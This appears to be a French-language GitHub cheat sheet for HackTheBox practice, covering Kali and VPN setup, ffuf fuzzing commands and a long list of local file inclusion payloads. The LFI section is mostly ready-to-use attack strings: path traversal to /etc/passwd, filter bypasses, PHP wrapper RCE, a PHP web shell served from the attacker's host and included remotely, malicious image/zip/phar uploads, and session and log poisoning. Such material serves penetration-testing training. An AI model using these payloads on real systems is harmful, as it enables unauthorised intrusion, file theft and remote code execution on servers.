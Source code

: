 # 1. Introduction.

# 2.1. Installation de la machine.
- Installez un systeme de gestion de machine virtuelle comme [Virtulbox](https://www.virtualbox.org/wiki/Downloads).
- Installez la machine virtuelle [Kali-linux](https://www.kali.org/get-kali/#kali-virtual-machines).
- Une fois la machine démarré, lancez les commandes : `sudo apt-get update -y` and `sudo apt-get full-upgrade -y`.

# 2.2. Installation des VPN HackTheBox

- Creez le fichier de configuration des VPN avec la commande : `mkdir -p /home/kali/.ovpnconfig`
- Déplacez-vous dans le fichier via : `cd /home/kali/.ovpnconfig/`
- Inserez vos configurations ".ovpn".
- Modifiez `.zshrc` avec la commande : `notepadqq /home/kali/.zshrc`.
- Ajoutez les lignes : 
```
# HTB VPN Shortcuts:
alias htbmachine='openvpn ~/.ovpnconfig/HTB-Machine.ovpn 1>/dev/null &'
alias htbstart='openvpn ~/.ovpnconfig/HTB-Start.ovpn 1>/dev/null &'
alias htbacademy='openvpn ~/.ovpnconfig/HTB-Academy.ovpn 1>/dev/null &'
alias sudo='sudo '
```

# 2.3. Instllation des outils
- Créez le dossier Outils : `mkdir /home/kali/Tools`
- Rendez-vous dans ce dossier : `cd Tools`
- Installez seclist : `git clone https://github.com/danielmiessler/SecLists`
- Installez gobuster : `sudo apt-get instll gobuster`


## Using Ffuf.
Directory Fuzzing :
```
ffuf -w /home/kali/Tools/SecLists/Discovery/Web-Content/directory-list-2.3-small.txt:FUZZ -u http://SERVER_IP:PORT/FUZZ
```
Extension Fuzzing :
  ```
  ffuf -w /home/kali/Tools/SecLists/Discovery/Web-Content/web-extensions.txt:FUZZ -u http://SERVER_IP:PORT/indexFUZZ
```
Page Fuzzing :
```
ffuf -w /home/kali/Tools/SecLists/Discovery/Web-Content/directory-list-2.3-small.txt:FUZZ -u http://SERVER_IP:PORT/blog/FUZZ.php
```
Recursive Fuzzing :
```
ffuf -w /home/kali/Tools/SecLists/Discovery/Web-Content/directory-list-2.3-small.txt:FUZZ -u http://SERVER_IP:PORT/FUZZ -recursion -recursion-depth 1 -e .php -v
```
Sub-domain Fuzzing :
```
ffuf -w /home/kali/Tools/SecLists/Discovery/DNS/subdomains-top1million-5000.txt:FUZZ -u https://FUZZ.hackthebox.eu/
```
VHost Fuzzing :
```
ffuf -w /home/kali/Tools/SecLists/Discovery/DNS/subdomains-top1million-5000.txt:FUZZ -u http://academy.htb:PORT/ -H 'Host: FUZZ.academy.htb' -fs xxx`
```
Parameter Fuzzing - GET :
```
ffuf -w /home/kali/Tools/SecLists/Discovery/Web-Content/burp-parameter-names.txt:FUZZ -u http://admin.academy.htb:PORT/admin/admin.php?FUZZ=key -fs xxx
```
Parameter Fuzzing - POST :
```
ffuf -w /home/kali/Tools/SecLists/Discovery/Web-Content/burp-parameter-names.txt:FUZZ -u http://admin.academy.htb:PORT/admin/admin.php -X POST -d 'FUZZ=key' -H 'Content-Type: application/x-www-form-urlencoded' -fs xxx
```
Value Fuzzing :
```
ffuf -w /home/kali/Tools/SecLists/Discovery/Web-Content/ids.txt:FUZZ -u http://admin.academy.htb:PORT/admin/admin.php -X POST -d 'id=FUZZ' -H 'Content-Type: application/x-www-form-urlencoded' -fs xxx
```
Others : 
```
sudo sh -c 'echo "SERVER_IP academy.htb" >> /etc/hosts'	Add DNS entry
for i in $(seq 1 1000); do echo $i >> ids.txt; done	Create Sequence Wordlist
curl http://admin.academy.htb:PORT/admin/admin.php -X POST -d 'id=key' -H 'Content-Type: application/x-www-form-urlencoded'	curl w/ P
```

## File inclusion.

Basic LFI :
```
/index.php?language=/etc/passwd
```
LFI with path traversal :
```
/index.php?language=../../../../etc/passwd
```
LFI with name prefix :
```
/index.php?language=/../../../etc/passwd
```
LFI with approved path
```
/index.php?language=./languages/../../../../etc/passwd
```
Bypass basic path traversal filter :
```
/index.php?language=....//....//....//....//etc/passwd
```
Bypass filters with URL encoding :
```
/index.php?language=%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%65%74%63%2f%70%61%73%73%77%64
```
Bypass appended extension with path truncation (obsolete) :
```
/index.php?language=non_existing_directory/../../../etc/passwd/./././.[./ REPEATED ~2048 times]
```
Bypass appended extension with null byte (obsolete) :
```
/index.php?language=../../../../etc/passwd%00
```
Read PHP with base64 filter :
```
/index.php?language=php://filter/read=convert.base64-encode/resource=config
```
RCE with data wrapper :
```
/index.php?language=data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWyJjbWQiXSk7ID8%2BCg%3D%3D&cmd=id
```
RCE with input wrapper :
```
curl -s -X POST --data '<?php system($_GET["cmd"]); ?>' "http://<SERVER_IP>:<PORT>/index.php?language=php://input&cmd=id"
```
RCE with expect wrapper :
```
curl -s "http://<SERVER_IP>:<PORT>/index.php?language=expect://id"
```
Host web shell :
```
echo '<?php system($_GET["cmd"]); ?>' > shell.php && python3 -m http.server <LISTENING_PORT>
```
Include remote PHP web shell :
```
/index.php?language=http://<OUR_IP>:<LISTENING_PORT>/shell.php&cmd=id
```
Create malicious image :
```
echo 'GIF8<?php system($_GET["cmd"]); ?>' > shell.gif
```
RCE with malicious uploaded image :
```
/index.php?language=./profile_images/shell.gif&cmd=id
```
Create malicious zip archive 'as jpg' :
```
echo '<?php system($_GET["cmd"]); ?>' > shell.php && zip shell.jpg shell.php
```
RCE with malicious uploaded zip :
```
/index.php?language=zip://shell.zip%23shell.php&cmd=id
```
Create malicious phar 'as jpg' :
```
php --define phar.readonly=0 shell.php && mv shell.phar shell.jpg
```
RCE with malicious uploaded phar :
```
/index.php?language=phar://./profile_images/shell.jpg%2Fshell.txt&cmd=id
```
Read PHP session parameters :
```
/index.php?language=/var/lib/php/sessions/sess_nhhv8i0o6ua4g88bkdl9u1fdsd
```
Poison PHP session with web shell :
```
/index.php?language=%3C%3Fphp%20system%28%24_GET%5B%22cmd%22%5D%29%3B%3F%3E
```
RCE through poisoned PHP session :
```
/index.php?language=/var/lib/php/sessions/sess_nhhv8i0o6ua4g88bkdl9u1fdsd&cmd=id
```
Poison server log :
```
curl -s "http://<SERVER_IP>:<PORT>/index.php" -A '<?php system($_GET["cmd"]); ?>'
```
RCE through poisoned PHP session :
```
/index.php?language=/var/log/apache2/access.log&cmd=id
```
